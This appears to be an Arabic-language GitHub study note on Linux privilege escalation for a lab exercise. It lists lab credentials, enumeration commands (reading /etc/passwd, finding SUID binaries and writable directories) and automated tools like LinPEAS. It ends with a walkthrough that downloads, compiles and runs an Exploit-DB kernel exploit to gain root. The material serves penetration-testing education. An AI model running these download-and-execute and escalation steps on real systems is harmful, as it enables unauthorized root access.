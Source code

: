 # Linux Privilege Escalation

![image](https://github.com/user-attachments/assets/7d5663ba-af28-421d-823d-67a0c93c8b7f)

<details>
  <summary>Enumeration</summary>


```
Username: karen

Password: Password1
```

  

## 1. Basic Info (معلومات عامة عن النظام)

| أمر        | وظيفته                                                    |
| ---------- | --------------------------------------------------------- |
| `whoami`   | يعرفك اسم المستخدم اللي انت عليه حاليًا                   |
| `id`       | يوضح الـ UID/GID والصلاحيات المرتبطة بيك                  |
| `hostname` | اسم الجهاز – أحيانًا مفيد لو الجهاز له اسم يدل على وظيفته |
| `uname -a` | إصدار الكرنل + المعمارية (x86\_64 أو غيره)                |

![image](https://github.com/user-attachments/assets/6363ac11-bf41-4ae1-9b7d-b9c42e67e1fc)


---

## 2. OS Version & Kernel

| أمر                   | وظيفته                                                                        |
| --------------------- | ----------------------------------------------------------------------------- |
| `cat /etc/issue`      | يطبع اسم وتفاصيل الـ Linux distro (مثلاً Ubuntu 20.04)                        |
| `cat /etc/os-release` | ملف رسمي فيه اسم النسخة + ID + Version                                        |
| `cat /proc/version`   | معلومات عن الكرنل + إذا كان GCC موجود (مهم لو عايز تـ compile local exploits) |



---

## 3. Environment

| أمر          | وظيفته                                                                                            |
| ------------ | ------------------------------------------------------------------------------------------------- |
| `env`        | يطبع كل المتغيرات البيئية، ممكن تلاقي فيها tokens أو مسارات غريبة                                 |
| `echo $PATH` | بيعرفك المسارات اللي النظام بيشوف فيها الملفات القابلة للتنفيذ – مهم جدًا لو فيه مسار قابل للحقن! |


![image](https://github.com/user-attachments/assets/aab5ff77-0ab8-4a6a-b7c5-db330f0e8a2f)

---

## 4. Users and Groups

| أمر               | وظيفته                                                                 |
| ----------------- | ---------------------------------------------------------------------- |
| `cat /etc/passwd` | يطبع كل المستخدمين الموجودين على النظام                                |
| `cat /etc/group`  | يشوف المجموعات اللي موجودة واللي ممكن تكون حساسة (مثلاً: docker، sudo) |

![image](https://github.com/user-attachments/assets/7b0e7204-dc60-4b97-981c-040c90fd6ccf)

![image](https://github.com/user-attachments/assets/ed5096cb-2831-45c1-a506-52bf1271e7f2)


---


## 5. Crontab / Scheduled Jobs

| أمر                 | وظيفته                                                                    |
| ------------------- | ------------------------------------------------------------------------- |
| `crontab -l`        | المهام المجدولة للمستخدم الحالي                                           |
| `ls -la /etc/cron*` | يشوف كل ملفات الـ crontab في النظام – أحيانًا تلاقي سكريبت بيتنفذ بـ root |
| `cat /etc/crontab`  | المهام المجدولة للنظام ككل – ممكن تديك وسيلة للاستغلال                    |



---

## 6. Processes & Services

| أمر                             | وظيفته                                                                   |
| ------------------------------- | ------------------------------------------------------------------------ |
| `ps aux`                        | يعرض كل العمليات الجارية – ممكن تلاقي برنامج بيشغله root                 |
| `top` أو `htop`                 | مشاهدة تفاعلية للعمليات                                                  |
| `netstat -tulnp` أو `ss -tulnp` | الخدمات اللي شغالة على البورتات – ممكن تلاقي حاجة داخليًا بس (localhost) |


![image](https://github.com/user-attachments/assets/16f4a91d-8133-481a-b79a-eb75ecbcb0f5)


![image](https://github.com/user-attachments/assets/e919e12d-1c12-405b-81cc-2d4a55b83133)
![image](https://github.com/user-attachments/assets/ec996032-2bf8-411f-8b80-590ed7b4e971)

![image](https://github.com/user-attachments/assets/03193a5c-21cf-4abe-b00a-616bb3e026f8)

![image](https://github.com/user-attachments/assets/a8f6abd4-62c9-4fe1-a78d-942b6929c021)

---

## 7. File System Permissions

| أمر                                     | وظيفته                                                                   |
| --------------------------------------- | ------------------------------------------------------------------------ |
| `find / -perm -4000 2>/dev/null`        | يبحث عن ملفات SUID – ملفات بتشتغل بصلاحيات المالك، ممكن تديك root access |
| `find / -perm -u=s -type f 2>/dev/null` | بديل للبحث عن SUID executables                                           |
| `find / -writable -type d 2>/dev/null`  | مجلدات قابلة للكتابة – ممكن تعمل فيها استغلال                            |


![image](https://github.com/user-attachments/assets/5c13b75e-a6c9-4e51-aa7d-0702d534d47c)

![image](https://github.com/user-attachments/assets/fde332e2-f181-44c0-b326-8f0c9150e57a)

![image](https://github.com/user-attachments/assets/4a89aa31-9be3-4e87-85df-0d1ec5ad4710)



---







## ✅ ملخص سريع :

| المحور           | الهدف                                         |
| ---------------- | --------------------------------------------- |
| OS & Kernel Info | تشوف لو في ثغرات على النسخة دي                |
| Environment      | PATH وقيم مهمة ممكن تسبب استغلال              |
| Users & Groups   | هل انت في مجموعة حساسة؟                       |
| Cron Jobs        | هل في سكريبت بيشتغل بوقت محدد ممكن تعدله؟     |
| Processes        | هل في برامج بتشتغل بصلاحيات أعلى؟             |
| SUID Files       | ممكن تستغل ملف بـ SUID عشان تاخد صلاحيات أعلى |






---
---





![image](https://github.com/user-attachments/assets/b8d06c67-4553-4990-ad30-9034da8eaf34)






  
</details>


















<details>
  <summary>Automated Enumeration Tools</summary>

# 🔐 Linux Privilege Escalation Enumeration Tools

قائمة بأهم الأدوات المفتوحة المصدر التي تُستخدم لتجميع معلومات النظام (Enumeration) من أجل اكتشاف فرص للترقية إلى صلاحيات أعلى (Root).

---

## 🥇 1. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- 🔎 من أقوى الأدوات الآلية لتجميع كل شيء تقريبًا.
- تبحث عن:
  - صلاحيات خاطئة في الملفات
  - SUID/SGID binaries
  - ملفات cron
  - كلمات مرور مكشوفة
  - خدمات مشغلة بصلاحيات عالية
- 🧠 تحتوي على خوارزميات للكشف عن misconfigurations والفرص الواضحة للاستغلال.
- ✅ مناسبة للأنظمة الحديثة والمتنوعة.

---

## 🥈 2. [LinEnum](https://github.com/rebootuser/LinEnum)

- 📜 سكربت Bash تقليدي لكن شامل.
- يقوم بجمع معلومات مثل:
  - بيانات النظام والمستخدم
  - cron jobs
  - network config
  - ملفات SUID/SGID
- 💡 أقل تفاعلية من LinPEAS، لكنه خفيف وسهل التشغيل.
- مفيد في حالات محدودة الموارد.

---

## 🥉 3. [LES - Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

- 🔍 يحلل إصدار الكرنل ويقترح عليك Exploits معروفة.
- مش بيعمل Enumeration كامل، لكنه:
  - يقارن الكرنل الحالي بقاعدة بيانات فيها Exploits قديمة
  - يعطيك توصيات مباشرة
- مناسب بعد معرفة إصدار الكرنل من `uname -a`.

---

## 4. [Linux Smart Enumeration (LSE)](https://github.com/diego-treitos/linux-smart-enumeration)

- 🧠 أداة ذكية تعمل بـ 3 أوضاع:
  - Quick
  - Standard
  - Thorough
- تعرض النتائج بتنسيق واضح وسهل الفهم.
- مصممة لتكون "هادئة" – لا تترك أثر واضح في النظام.
- مفيدة للاختبارات الهادئة (Low OPSEC).

---

## 5. [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

- 📘 سكربت Python قديم نسبيًا لكنه مفيد.
- يعطيك ملخص لبيئة التشغيل، الصلاحيات، الملفات الغريبة.
- مناسب مع الأنظمة القديمة أو أنظمة Python-only.

---

## 🧰 ملاحظات عامة:

| أداة | نوعها | الأفضل لـ |
|------|--------|------------|
| LinPEAS | شامل + ذكي | اكتشاف فرص متعددة + تحليل شامل |
| LinEnum | بسيط + مباشر | بيئة محدودة أو سكربت سريع |
| LES | اقتراح Exploits فقط | بعد معرفة kernel |
| LSE | ذكي + منظم | الاختبارات الدقيقة بدون ضوضاء |
| LinuxPrivChecker | خفيف + Python | بيئات قديمة أو محدودة |

---

> 💡 **نصيحة:** الأفضل دائمًا تبدأ بـ LinPEAS أو LSE، وبعد كده تستخدم LES لو فيه فرصة لاستغلال الكرنل.


  
</details>

























<details>
  <summary>Privilege Escalation: Kernel Exploits</summary>


# 🚀 Linux Privilege Escalation – Kernel Exploits

## 🎯 الهدف
استغلال ثغرات في نواة النظام (Kernel) للترقية من مستخدم عادي إلى root.

---

## 🧾 1. تحديد إصدار الكرنل

```bash
uname -r
```

مثال إخراج:
```
3.13.0-24-generic
```

---

## 🔍 2. البحث عن ثغرات مناسبة

### أدوات مساعدة:
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Exploit-DB](https://www.exploit-db.com)
- `searchsploit` (لو مثبت عندك)

### مثال باستخدام LES:
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

---

## 🛠️ 3. تجربة Exploit

### خطوات عامة:

1. تحميل الكود:
```bash
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

2. تجميع (Compile):
```bash
gcc exploit.c -o exploit
```

3. تشغيل:
```bash
./exploit
```

4. التحقق من الصلاحيات:
```bash
whoami
id
```

---

## ⚠️ ملاحظات مهمة

| نقطة | توضيح |
|------|--------|
| ❗ Compiler (مثل gcc) لازم يكون متاح | لو مش موجود، compile من جهازك وانقل الملف |
| ⚙️ بعض الثغرات مش بتشتغل دايمًا | جرب أكثر من exploit |
| 📛 Kernel Exploits خطيرة | ممكن تسبب system crash أو shell غير مستقرة |
| 🧠 استخدم Virtual Machine أو اختبار فقط | لتفادي تلف النظام |

---

## ✅ خطوات التلخيص

| الخطوة | الأداة |
|--------|--------|
| تحديد إصدار الكرنل | `uname -r` |
| اقتراح ثغرات | LES، Exploit-DB، searchsploit |
| تحميل واستغلال | `wget`, `gcc`, `./exploit` |
| التأكد من النجاح | `whoami`, `id` |

---

> 💡 **نصيحة:** دائمًا احتفظ بمجموعة Exploits جاهزة، واختبرها في بيئة آمنة فقط.





---
---



  
</details>

































